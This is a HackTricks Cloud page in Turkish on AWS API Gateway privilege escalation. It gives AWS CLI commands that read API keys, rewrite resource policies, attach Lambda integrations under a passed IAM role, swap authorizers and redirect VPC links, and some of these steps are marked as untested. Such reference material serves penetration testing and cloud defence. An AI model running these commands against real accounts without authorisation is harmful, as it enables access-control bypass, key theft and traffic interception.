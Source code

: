 # AWS - Apigateway Privesc

<details>

<summary><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'i **takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek paylaşın**.

</details>

## Apigateway

Daha fazla bilgi için kontrol edin:

{% content-ref url="https://github.com/carlospolop/hacktricks-cloud/blob/tr/pentesting-cloud/aws-security/aws-hizmetleri/aws-api-gateway-enum.md" %}
[https://github.com/carlospolop/hacktricks-cloud/blob/tr/pentesting-cloud/aws-security/aws-hizmetleri/aws-api-gateway-enum.md](https://github.com/carlospolop/hacktricks-cloud/blob/tr/pentesting-cloud/aws-security/aws-hizmetleri/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Bu izinle yapılandırılmış API'lerin (bölgeye göre) API anahtarlarını oluşturabilirsiniz.

```bash
aws --region <region> apigateway create-api-key
```

**Potansiyel Etki:** Bu teknikle bir ayrıcalık yükseltemezsiniz, ancak hassas bilgilere erişebilirsiniz.

### `apigateway:GET`

Bu izinle yapılandırılmış API'ların (bölgeye göre) oluşturulan API anahtarlarını alabilirsiniz.

```bash
aws --region apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```

**Potansiyel Etki:** Bu teknikle bir ayrıcalık yükseltemezsiniz, ancak hassas bilgilere erişebilirsiniz.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Bu izinlerle bir API'nin kaynak politikasını değiştirmek mümkündür, böylece API'yi çağırmak ve API ağ geçidinin sahip olabileceği potansiyel erişimi kötüye kullanmak mümkün olabilir (örneğin, zafiyete sahip bir lambda işlevini çağırmak).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Potansiyel Etki:** Genellikle, bu teknikle doğrudan bir ayrıcalık yükseltme yapamazsınız, ancak hassas bilgilere erişebilirsiniz.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Test edilmesi gerekiyor
{% endhint %}

`apigateway:PutIntegration`, `apigateway:CreateDeployment` ve `iam:PassRole` izinlerine sahip bir saldırgan, **bir IAM rolüne bağlı olan bir Lambda işlevi ile mevcut bir API Gateway REST API'sine yeni bir entegrasyon ekleyebilir**. Saldırgan daha sonra **Lambda işlevini tetikleyerek keyfi kodu yürütebilir ve IAM rolü ile ilişkili kaynaklara erişim elde edebilir**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potansiyel Etki**: Lambda fonksiyonunun IAM rolü ile ilişkili kaynaklara erişim.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Test edilmesi gerekmektedir.
{% endhint %}

`apigateway:UpdateAuthorizer` ve `apigateway:CreateDeployment` izinlerine sahip bir saldırgan, **mevcut bir API Gateway yetkilendiricisini** değiştirerek güvenlik kontrollerini atlayabilir veya API istekleri yapıldığında keyfi kodu çalıştırabilir.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potansiyel Etki**: Güvenlik kontrollerini atlatma, API kaynaklarına izinsiz erişim.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Test edilmesi gerekmektedir
{% endhint %}

`apigateway:UpdateVpcLink` iznine sahip bir saldırgan, **mevcut bir VPC Bağlantısını değiştirerek özel API trafiğini yetkisiz veya zararlı kaynaklara yönlendirebilir**.

```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```

**Potansiyel Etki**: Yetkisiz erişimle özel API kaynaklarına erişim, API trafiğinin dinlenmesi veya kesintiye uğratılması.

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahraman seviyesine öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'da takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek paylaşın**.

</details>
